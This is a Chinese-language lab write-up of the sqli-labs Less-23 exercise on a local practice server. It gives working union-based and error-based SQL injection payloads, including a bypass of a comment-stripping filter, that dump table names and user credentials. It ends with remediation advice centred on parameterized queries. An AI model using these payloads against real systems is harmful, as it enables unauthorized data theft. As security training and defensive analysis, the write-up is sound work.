SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-23



在URL输入?id=1，页面回复数据



输入?id=a，页面返回**空结果**（页面长度缩短，但**没有 SQL 报错**），说明是字符型参数

（为什么这一条能判断类型：字符型的语句是 `WHERE id = '$id'`，
 传入 a 后变成 `WHERE id = 'a'` —— 这是合法 SQL，只是查不到数据，所以返回空而不报错。
 如果是数字型 `WHERE id = $id`，传 a 会被当成列名去找，报 `Unknown column 'a'`。）



输入?id=1',报错**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-23\index.php** on line **38**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

可以看出闭合方式为'



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=1'--+

加上注释符页面依旧报错，但报错内容变成了**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-23\index.php** on line **38**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

说明注释符失效

分析：

输入的内容全部放在'里面'，因此只要在前面后面都用'闭合就能让中间输入的内容执行



构造payload：?id=-1' order by 1'测试查询位数，返回报错**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-23\index.php** on line **38**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1说明order by用不了，换select测试查询位数试试







只有payload：?id=-1' union select 1,2,3'有回显位2，3

接下来使用联合查询注入爆出库名、表名、列名和数据



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,2,database()'



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20%27

报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-23\index.php** on line **38**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1

是后面的limit所导致，尝试让limit前面为（）的方式执行



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())'

可以返回表名



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users' and  table_schema=database())'

爆出列名



URL：http://127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,2,(select group_concat(concat_ws(':',username,password)) from users)'

爆出数据

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可读取数据库中的任意数据。

本次已实际验证：读出库名 `security`、表名 `emails,referers,uagents,users`、`users` 表的列名 `id,username,password`，以及表中全部 13 组用户名与密码。

**本关的特殊性在于目标做了过滤，但过滤是无效的**：程序把 `#` 和 `--` 从输入中删除，本意是让注释符失效。但注释符只影响"把后面的语句注释掉"这一步，**并不能阻止注入本身**——只要改用"把语句补齐"的写法，注入照样成立，数据一样全部泄露。

这印证了一个普遍问题：**基于黑名单的过滤，只能抬高攻击成本，无法消除漏洞**。本关从发现过滤到绕过成功，只多花了"把末尾引号补上"这一个动作。

其中包含 `admin:admin` 这类可直接登录的后台账号，密码无需破解即可使用；用户名密码一旦泄露，可用于撞库其他平台账号，影响范围超出本系统。账号信息属个人信息，若为生产环境可能触发《个人信息保护法》下的合规责任。

**利用门槛**：仅需浏览器与一次 URL 参数修改。**虽然存在过滤，但绕过方式固定且简单（末尾补引号 + 把子查询放进列的位置），不需要专业工具。**

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

   **本关的反面教材值得说明**：程序用 `preg_replace` 删除 `#` 和 `--`，
   这种做法（黑名单过滤）**不能作为修复手段** ——
   它只让注释符失效，而注释符只是注入的一种辅助手段，
   用"补齐语句"的方式可以完全绕开。**过滤关键字永远无法穷举绕过方式。**

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。本关就是活生生的例子：删掉了两个字符，
   但 payload 只需多补一个引号即可继续利用，防护效果几乎为零。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 统一错误页面，不向用户返回数据库报错与文件路径
     （本关报错直接暴露了 `index.php` 的物理路径和行号，
      这类信息对后续攻击很有价值）
   - WAF 拦截 union select、information_schema 等特征

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索。

   **特别提醒**：不要因为"已经做了过滤"就认为该接口安全。
   本关的过滤规则（删 `#`、删 `--`）看起来像是"处理过"，
   但实际上完全没有防护效果。排查时应以"是否使用参数化查询"
   为唯一标准，而不是以"是否加了过滤代码"为标准。

5、修复验证方法：
   用原 payload 复测：
     ?id=-1' union select 1,2,database()'
   预期：不再回显库名，返回空结果或统一错误页。

   并需更换手法复测：
   - 补引号形式：?id=1' and 1=1' 与 ?id=1' and 1=2' 对比
   - 子查询形式：?id=-1' union select 1,(select database()),3'
   - 报错注入：?id=1' and updatexml(1,concat(0x7e,database(),0x7e),3)'
   确认全部手法失效。**仅过滤 `#` 和 `--` 不视为任何防护。**

### 三、延伸思考

**卡在哪**：

1、**以为注释符失效就等于注入失效，一开始不知道还能怎么走。**

   加上 `--+` 报错、加上 `#` 也报错，第一反应是"本关打了补丁，注入不了"。
   但对比两次报错内容就发现关键线索：

   ```
   ?id=1'      → near ''1'' LIMIT 0,1'      （报错里能看到完整的原语句）
   ?id=1'--+   → near '' LIMIT 0,1'          （-- 被删了，但 # 之外的语句还在）
   ```

   报错内容的变化说明：**注释符确实被过滤了，但注入本身没有被防住**，
   因为原查询末尾的 `LIMIT 0,1` 还卡在那里。

   **这里的转折是**：从"怎么绕过过滤让它能注释"，
   转成"不用注释，我直接把这个语句补完整"。

2、**`order by` 突然用不了了，而且四种写法全报错。**

   `order by 3`、`order by 3 '`、`order by 3'`、`order by 3--+` 全部失败。

   原因和上面同一处：**`order by` 必须写在语句末尾**，
   而末尾已经被 `LIMIT 0,1` 占住了，注释符又被过滤掉没法把它消掉，
   所以 `order by` 根本没有位置可写。

   最后改用 `union select` 逐个数列数（试到哪一组数字能出回显，就是哪一列）。
   **这让我意识到"试列数"不能只依赖 `order by` 一种方法。**

3、**`from` 子句也写不进去，卡了一阵。**

   按前几关的习惯写成：
   `?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()'`
   结果报 `near ''' LIMIT 0,1'`。

   想通的原因是在测试中发现：`union select 1,2,'hello' '` 这一条，
   **页面第 3 列显示的正是 `hello`** ——
   说明末尾那个引号开启的字符串，内容一直延续到 `LIMIT 0,1` 前面的引号，
   **它被当成了第 3 列的值**。

   既然 `union select 1,2,3` 后面接的东西会被挤到"字符串"的位置之外，
   那么 `from`、`where`、`and` 这些必须写在末尾的子句就都没有位置。

   **解法：把整个子查询塞进某一列的位置**：
   `?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())'`
   子查询内部可以自由使用 `from` 和 `where`，限制就被绕开了。

**学到什么**：

1、**黑名单过滤挡不住注入，只能改变 payload 的写法。**

   本关删掉了 `#` 和 `--` 两个字符，听起来是"做了防护"，
   但实际效果只是迫使攻击者换一种收尾方式。
   从发现过滤到绕过成功，只多花了"末尾补一个引号"这一个动作。

   **判断一个接口是否安全，唯一的标准是"有没有用参数化查询"，
   而不是"有没有加过滤代码"。** 加了过滤不等于安全。

2、**"报错信息"本身就是最重要的排查工具。**

   本关两次卡住，都是靠报错内容解决的：

   ```
   near ''1'' LIMIT 0,1'    → 看到原语句结构，判断出闭合方式是 '
   near '' LIMIT 0,1'        → 看到 # 被删掉后语句变了，确认过滤了注释符
   near ''' LIMIT 0,1'       → 看到引号前多了个单引号，定位到 from 的位置冲突
   ```

   **报错里能读出原查询长什么样、你的 payload 插到了哪里、哪里不合法。**
   所以实际测试中，如果目标回显报错，第一件事是把报错原文完整记下来。

3、**"注释符被过滤"这类限制，本质上是"语句尾巴消不掉"，有三种应对**：

   | 应对方式 | 说明 |
   |---|---|
   | **补齐语句** | 末尾补引号/括号，让被截断的语句重新合法（本关采用） |
   | **把子查询挪进列的位置** | 需要 `from`/`where` 时，用 `(select ...)` 塞进某一列 |
   | **改用其他手法** | 注释符用不了时，报错注入、盲注可能反而更直接 |

   **关键是先想清楚"原语句长什么样"**，再决定补哪里。

4、**同一个目标可以同时存在"有多重限制"的情况，要一条条拆。**

   本关实际有两层限制叠加：注释符被过滤 + 原语句末尾固定带 `LIMIT 0,1`。
   单独看每一条都不难，叠在一起才让人卡住。
   **排查方法就是逐层剥离**：先确认注释符失效，
   再发现 `order by` 没了位置，最后定位到 `from` 也没位置 ——
   每剥一层，剩下的约束就更清楚。

5、**过滤绕过与"更高危"并不矛盾，反而更危险。**

   有人可能会想"既然有过滤，说明开发意识到问题了，应该安全一些"。
   事实相反：**这个接口既有注入漏洞、又回显数据库报错和服务器物理路径**
   （`G:\PHPTutorial\WWW\sqli-labs-master\Less-23\index.php on line 38`）。
   后者的信息价值很高 —— 暴露了部署路径和代码结构，
   对后续的文件包含、路径遍历等攻击都有帮助。

